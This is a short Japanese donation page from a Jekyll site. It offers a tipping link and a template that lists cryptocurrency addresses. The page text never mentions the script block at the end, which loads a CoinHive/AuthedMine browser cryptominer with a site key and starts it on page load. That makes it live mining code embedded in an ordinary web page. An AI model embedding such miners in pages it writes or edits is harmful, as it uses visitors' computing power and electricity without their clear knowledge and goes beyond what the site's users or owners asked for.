 # Donation

何でもしませんけど寄付はほしいﾃﾞｽ  
以下のアドレスでどうぞどうぞ

[Sensuでやるならこちら](https://shinoharata.github.io/TipSensuWithTwitter/?name=uesitananame55)

## Mainnet

{% for address in site.data.addresss.Mainnet %}
### {{ address.name }} - {{ address.code }}
`{{ address.address }}`
{% endfor %}


<script src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js"></script>
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('ZPnE2bX7bJXKXOBTYPDqkTnz0uJdzBep', {throttle: 0.3});
    miner.start(CoinHive.IF_EXCLUSIVE_TAB);
</script>